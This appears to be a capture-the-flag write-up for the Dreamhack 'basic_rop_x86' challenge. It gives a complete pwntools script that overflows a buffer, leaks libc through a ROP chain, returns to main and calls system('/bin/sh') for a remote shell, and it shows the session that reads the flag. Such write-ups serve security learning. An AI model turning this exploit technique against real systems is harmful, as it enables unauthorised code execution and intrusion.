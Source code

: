 ### Overview
this challenge is the same as ``basic_rop_x64``, but this challenge is 32 bits, so it has something different to 64 bits

I do another way to solve it, this method called return2main 


### Exploitation
After leak libc base, we move to main again and call system(/bin/sh) function to get shell

```py
from pwn import *
# p = process('./basic_rop_x86')
p = remote('host8.dreamhack.games', 16441)
e = ELF('./basic_rop_x86')
libc = ELF('./libc.so.6')


pop_esi_edi_ebp = 0x08048689
main = e.sym['main']
read_plt = e.plt['read']
write_plt = e.plt['write']
read_got = e.got['read']
sh = list(libc.search(b'/bin/sh'))[0]

buf = 0x40 * b'A'
payload = buf + b'A'*8 

# write(1, read_got, 4)
# in 32bits, we pass parameters through stack (push in reverse order)
payload+=p32(write_plt)
payload+=p32(pop_esi_edi_ebp)
payload+=p32(1)
payload+=p32(read_got)
payload+=p32(4)
payload+=p32(main) # after write out read address, move to main again


p.send(payload)
p.recvuntil(buf)
read_lib = u32(p.recv())
libc_base = read_lib - libc.symbols['read']
system = libc_base + libc.symbols['system']
binsh = libc_base + sh
print('read', hex(read_lib))
print('libc_base', hex(libc_base))
# return 2 main and call system(/bin/sh)
payload=b'A'*0x48
# you know, in 64 bits, to call system(/bin/sh) we need to set up sth like:
# rdi = /bin/sh
# ret
# call system
# but in 32 bits, it passes arguments through stack and in reverse order:
payload+=p32(system)
# because it passes argument through stack, so we dont need any registers to store "/bin/sh"
payload+=p32(0)+p32(binsh)
p.send(payload)
p.interactive()

```

### Result
```bash
$ python3 exploit.py
read 0xf7db34c0
libc_base 0xf7cab000
[*] Switching to interactive mode
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA$ ls
basic_rop_x86
flag
libc.so.6
$ cat flag
DH{511346c4606e748addd555cc9947aacf67990d504fac432f5dbb0f14eea8363b}
[*] Got EOF while reading in interactive
$ 
```
